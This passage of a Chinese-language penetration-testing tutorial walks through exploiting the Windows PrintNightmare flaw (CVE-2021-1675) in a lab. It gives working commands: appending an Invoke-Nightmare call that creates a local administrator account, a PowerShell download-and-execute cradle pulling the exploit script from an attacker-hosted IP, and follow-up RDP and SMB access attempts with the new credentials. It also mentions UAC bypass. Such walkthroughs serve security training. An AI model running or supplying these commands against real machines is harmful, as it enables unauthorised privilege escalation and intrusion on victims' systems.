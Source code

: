 在本例开始之前，我们需要先获取 [CVE-2021-1675.ps1](https://github.com/calebstewart/CVE-2021-1675) 的副本，然后将其放置在 EXE 和 DLL 所在的目录下。

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173823997-2035624813.png)

然后，我们可以使用以下 echo 命令将脚本调用函数附加到脚本底部：

    echo Invoke-Nightmare -DriverName '"Xerox" -NewUser "pwnt" -NewPassword "Password123"' >> CVE-2021-1675.ps1
    

最终，脚本的底部就像下面这样：

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173822996-337829629.png)

这条后加的命令会创建一个名为 pwnt 的新用户，账户的密码为 Password123，且新用户会被添加到本地管理员组。

在脚本底部添加命令的方式，会使得该脚本在被 IEX 下载到内存时，该命令会被自动执行。

在开始漏洞利用前，先使用 net user 命令，可以确认当前并不存在名为 'pwnt' 的用户。

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173823355-511096921.png)

现在，我们使用以下命令开始漏洞利用：

    iex(new-object net.webclient).downloadstring('http://172.16.1.30/CVE-2021-1675.ps1')
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173824031-1917251678.png)

从脚本的输出中可以看到，该漏洞利用创建了一个恶意 DLL，该 DLL 创建了我们指定的用户，然后将其添加到本地管理员组。然后，它会清理并删除自己创建的 DLL。

现在，当我们再次检查 net user 和 net localgroup administrators 时，将看到新创建的用户。

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173823175-512680957.png)

现在，我们能用这个用户做些什么呢？好吧，如果 RDP 已打开，那么可以使用 xfreerdp 通过远程桌面进入受害者机器，然后使用“以管理员身份运行”打开 cmd.exe，以启用我们的所有权限。

    sudo xfreerdp /u:pwnt /p:'Password123' /v:172.16.1.50 +clipboard
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173824112-1498647847.png)

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173824072-1521338592.png)

Cool，我们可以获得管理员的全部权限，但是如果 RDP 未打开时会发生什么情况呢？当我们使用 [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) 测试 SMB 的访问时，会看到用户是有效的。但是，并没有出现预期的 Pwn3d！提示，这意味着我们无法通过 SMB 服务执行命令。

    crackmapexec smb 172.16.1.50 -u pwnt -p Password123 --local-auth
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173823534-114174555.png)

同时，我们使用 psexec.py 测试也是没有效果的。

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173824090-1312734591.png)

而之所以会发生这种无法登录的情况，是因为我们的本地管理员用户被 UAC 阻碍了。而我们可以绕过这一点，在没有 GUI 的情况下以该用户的身份获取一个 admin shell。但是，这需要先使用 [RunAs 技术](https://www.cnblogs.com/kqdssheng/p/18751119)获取一个中完整性 shell，然后使用某种 [UAC 绕过技术](https://www.cnblogs.com/kqdssheng/p/18745249)将中完整性 shell 提升到高完整性 shell。